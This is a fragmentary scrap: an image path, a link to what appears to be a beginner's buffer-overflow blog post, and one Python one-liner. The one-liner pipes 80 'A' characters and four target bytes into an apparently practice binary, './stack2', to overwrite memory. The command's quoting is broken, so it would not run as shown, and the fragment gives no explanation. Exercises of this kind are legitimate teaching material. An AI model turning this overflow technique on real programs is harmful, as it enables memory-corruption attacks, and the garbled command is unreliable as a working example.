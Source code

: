 https://h4ckbl0g.github.io/Buffer-Overflow-basico/

```python
python3 -c 'print("A'*80 + "\x05\x03\x02\x01")' | ./stack2
```
